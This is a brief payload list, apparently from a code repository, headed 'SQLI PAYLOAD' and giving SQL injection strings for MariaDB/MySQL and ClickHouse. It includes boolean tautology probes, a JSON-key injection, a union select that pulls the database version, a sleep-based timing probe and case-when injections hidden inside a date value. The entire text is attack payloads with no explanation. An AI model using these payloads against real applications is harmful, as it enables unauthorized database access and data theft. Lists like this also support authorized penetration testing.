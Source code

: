 # SQLI PAYLOAD

# MARIADB, MYSQL
||1=1%20limit%201%20%23  
||1=2%20limit%201%20%23  
{"or 1=1 -- ":"asdf"}//딕셔너리  
"1param":"asdf%') /*","2param":*/ union select 0,0,0,@@version,0 --a"  

# CLICK HOUSE
DESC, (select sleep(3)) -- -  
2024-0'||case when 1=1 then 5 else 0x2b end||'-10 23:30:58  
2024-0'||case when 1=2 then 5 else 0x2b end||'-10 23:30:58  
